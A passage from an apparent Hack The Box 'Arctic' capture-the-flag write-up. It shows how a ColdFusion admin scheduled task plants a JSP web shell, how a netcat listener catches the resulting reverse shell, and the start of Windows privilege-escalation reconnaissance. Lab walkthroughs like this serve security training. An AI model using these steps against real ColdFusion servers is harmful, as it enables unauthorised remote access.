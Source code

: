 Inside the ColdFusion admin console we configure three parameters for the scheduled task. 
- Set the URL to our webserver hosting the JSP shell 
- Check the box for Save output to a file 
- Set File to C:\ColdFusion8\wwwroot\CFIDE\shell.jsp

![TASK](/img/arctic-task.png)

After submitting we run the task on demand under Actions, and we can see the 200 reponse on our python http server. 

![TASKRUN](/img/arctic-taskrun.png)

Fire up a netcat listener and we can now browse to our shell at `http://10.10.10.11:8500/CFIDE/shell.jsp`

```
root@kali:~/htb/arctic# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49212
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami & hostname
whoami & hostname
arctic\tolis
arctic
```

And we can grab the user.txt flag on tolis' desktop. 

### Privilege Escalation

Tolis doesn't seem to be an administrator on the system so we will need to escalate. One of the first things I do for privilege escalation on Windows is grab system information, so that we can identify the OS and also see if its missing any patches.

```
C:\>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00477-001-0000421-84900
Original Install Date:     22/3/2017, 11:09:45   
System Boot Time:          29/12/2017, 3:34:21   
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2600 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 88 MB
```